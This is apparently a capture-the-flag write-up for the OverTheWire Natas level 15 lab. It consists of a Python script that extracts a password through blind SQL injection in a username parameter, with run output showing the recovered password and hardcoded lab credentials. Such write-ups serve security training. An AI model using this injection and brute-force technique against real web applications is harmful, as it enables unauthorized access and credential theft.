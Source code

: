Try to brute-force the password using the following Python script:

```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org"
natas15_username = "natas15"
natas15_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

success_phrase = "This user exists."

characters = "".join([string.ascii_letters, string.digits])


def find_password_letters():
    letters = []
    print("Finding password letters...")
    for c in characters:
        uri = url + '?username=natas16"+and+password+LIKE+BINARY+"%' + c + '%&debug'
        r = requests.get(uri, auth=(natas15_username, natas15_password))
        if success_phrase in r.text:
            letters.append(c)
    print("All password letters found!")
    return letters


def brute_force_password(password_letters):
    print("Brute-forcing password...")
    password = ""
    for _ in range(1, 64):
        for c in password_letters:
            test = password + c
            uri = url + '?username=natas16"+and+password+LIKE+BINARY+"' + test + '%&debug'
            resp = requests.get(uri, auth=(natas15_username, natas15_password))
            if success_phrase in resp.text:
                password += c
    print("Brute-forcing password complete!")
    return password


if __name__ == "__main__":
    letters = find_password_letters()
    password = brute_force_password(letters)
    print("Password: ", password)
```

Execution:

```shell
$ python natas15.py
Finding password letters...
All password letters found!
Brute-forcing password...
Brute-forcing password complete!
Password:  hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
